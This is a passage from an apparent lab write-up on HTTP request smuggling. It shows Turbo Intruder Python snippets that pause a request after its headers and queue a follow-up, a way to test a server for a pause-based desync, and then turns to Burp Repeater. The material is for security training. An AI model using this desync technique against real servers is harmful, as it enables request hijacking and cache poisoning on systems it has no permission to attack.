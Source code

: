 - In Turbo Intruder's Python editor panel, adjust the request engine configuration to set the following options:

```py
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```

- Queue the request, adding the following arguments to the `queue()` interface:

- `pauseMarker` - A list of strings after which you want Turbo Intruder to pause.
- `pauseTime` - The duration of the pause in milliseconds.

For example, to pause after the headers for 60 seconds, queue the request as follows:

```py
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000)
```

- Queue an arbitrary follow-up request as normal:

```py
followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n'
engine.queue(followUp)
```

- Ensure that you're logging all responses to the results table:

```py
def handleResponse(req, interesting):
    table.add(req)
```

When you first start the attack, you won't see any results in the table. However, after the specified pause duration, you should see two results. If the response to the second request matches what you expected from the smuggled prefix (in this case a 404), this strongly suggests that the desync was successful.

**Now, we can go to Burp Suite Repeater, and try sending a request for a valid directory without including a trailing slash:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226182855.png)
